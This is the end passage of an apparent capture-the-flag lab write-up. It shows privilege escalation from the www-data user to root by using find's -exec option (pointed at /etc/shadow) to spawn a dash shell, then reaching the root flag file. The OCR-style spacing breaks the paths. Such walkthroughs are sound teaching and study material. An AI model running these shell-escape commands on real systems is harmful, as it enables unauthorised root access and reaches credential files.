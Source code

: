 [-exec] (https://i.imgur.com/Wxw6Xz6.png)

What we can do now is to execute the command ```'' find / etc / shadow -exec bash \; ```. In doing so, however, we are still the www-data user. This is quite strange. Let's try to do it with a different shell.
To see what else we have to choose from, run ```cat / etc / shells```
```
/ bin / sh
/ bin / dash
/ bin / bash
/ bin / rbash
```
Let's try with dash ``````find / etc / shadow -exec dash \; ```
```bash
$ whoami
root
```
Apparently, it works :)
Going to the ```/ root```directory, we see the file ```thefinalflag.txt```I will keep its contents to myself for now. I encourage you to solve the Box yourself after this write-up and find out what was in the final flag: P
I sincerely hope you learned a lot from this trip on this Box
